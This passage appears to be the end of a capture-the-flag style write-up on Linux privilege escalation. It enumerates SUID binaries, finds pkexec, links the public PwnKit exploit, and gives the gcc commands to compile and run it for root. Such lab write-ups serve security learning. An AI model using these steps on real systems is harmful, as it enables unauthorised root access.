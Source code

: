 command:```find / -perm -u=s -type f 2>/dev/null```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b614d9a9-5be3-4a58-98ed-ee2da2f70f77)

Well Well, we have ```pkexec```. Lets try the ```pwnkit``` exploit for this

You can downlod the exploit from [here](https://github.com/ly4k/PwnKit/blob/main/PwnKit.c)

Send this over to the target machine and compile

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2fab08ef-71b3-4c3d-a1c1-15d50721be4d)

To compile and run
```
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3634c711-924e-49df-bbf4-a7a18aa2249f)

cool stuff🙃


That will be all for today
<br><br>
[Back To Home](../../index.md)


























